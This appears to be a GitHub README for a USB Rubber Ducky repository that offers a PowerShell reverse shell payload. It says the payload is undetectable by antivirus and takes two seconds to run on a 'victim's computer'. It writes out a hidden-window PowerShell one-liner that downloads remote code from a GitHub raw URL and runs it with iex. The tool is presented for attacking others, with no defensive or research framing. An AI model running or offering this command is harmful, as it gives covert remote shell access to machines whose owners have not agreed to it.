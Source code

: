 # USB Rubber Ducky Repository

*April 15th, 2019*

---

## Description

This is a repository containing a customized Powershell Reverse Shell payload for the USB Rubber Ducky by Hak5. This attack vector is currently undetectable by antiviruses and unblockable by firewalls, taking a mere 2 seconds to execute on the victim's computer.

## Execution
Run this command in the windows start menu: `powershell -w h iex (invoke-webrequest raw.githubusercontent.com/computer-geek64/ducky/master/d).content`

## Usage
Usage is documented in the [wiki](wiki) section.

## Authors
* **Ashish D'Souza** - *Sole developer* - [computer-geek64](https://github.com/computer-geek64)

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
